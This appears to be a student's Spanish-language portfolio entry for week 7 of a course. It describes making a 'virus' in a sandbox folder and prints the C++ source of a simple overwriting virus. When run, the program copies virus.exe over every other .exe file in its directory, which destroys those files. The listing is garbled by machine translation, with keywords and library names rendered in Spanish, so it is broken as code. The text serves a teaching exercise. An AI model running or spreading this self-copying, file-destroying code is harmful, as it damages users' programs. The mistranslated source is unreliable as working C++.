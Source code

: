 # Portafolio de evidencias.

## Semana 7.


Lo que aprendí esta semana es hacer una cadena de virus donde cree por primero una carpeta llamada sandbox que no se podrá mover el virus para ello agregue dos de los diferentes códigos ejecutables en versión .exe donde cada uno hacen diferentes usos y diferentes funciones como las siguientes:
  ![image](https://user-images.githubusercontent.com/58115753/187101958-5f2d9060-a5b8-4f38-9f73-173fbeca9b3a.png)
 ![image](https://user-images.githubusercontent.com/58115753/187101970-e06c4ee1-8f15-4e24-8d63-b4769d8bfd7e.png)

En este se muestra el código de ejecutar el volumen de un cuadrado, triangulo entre otros:

 ![image](https://user-images.githubusercontent.com/58115753/187102004-3340b0f9-99be-4d8a-947c-3c8db24f0295.png)

En el siguiente nos muestra un nombre de presentación con edad y genero:
![image](https://user-images.githubusercontent.com/58115753/187102008-f897cc91-5543-40af-8edc-a69b75d57dc7.png)

 
Como se puede observar todos los códigos son iguales ahora se abrirá el archivo creado a igual manera a .exe que como se observa dice soy un virus como el siguiente: 

![image](https://user-images.githubusercontent.com/58115753/187102012-b067393b-a568-40b0-b3a1-2cafbba4c8b1.png)


Haciendo que los demás cuando se ejecute se vean igual:

![image](https://user-images.githubusercontent.com/58115753/187102034-1645c0e8-3d34-441c-9c76-37e04524ac29.png)

![image](https://user-images.githubusercontent.com/58115753/187102041-cd883be7-fec2-43cc-8431-56443314ae5c.png)


 por ultimo una muestra del codigo utilisado:


incluir  < iostream >
# incluir  < fstream >
# incluir  < cadena.h >
# include  < dirección.h >
# incluir  < ventanas.h >
bool  soloExe (std::string archivo);
int  principal (){
    std::cout<< " Soy un virus \n " ;
    std::string nombreArchivos;
    DIR *directorio;
    tipo int ;
    struct  dirent *elementos;
    if (directorio= abrirdir ( " . " )){
        while (elementos= readdir (directorio))
        {
            nombreArchivos=elementos-> d_nombre ;
            tipo=elementos-> d_tipo ;
            if (nombreArchivos!= " .. " && nombreArchivos!= " . " && tipo== 0 && soloExe (nombreArchivos) ){
                CopyFile ( " virus.exe " , nombreArchivos.c_str (), false );
            }
        }

    }

    sistema ( " pausa " );
    devolver  0 ;
}
bool  soloExe (std::string archivo){
    if (archivo. substr (archivo. find_last_of ( " . " )+ 1 )== " exe " ){
        devolver  verdadero ;
    } más {
        devolver  falso ;
    }
}









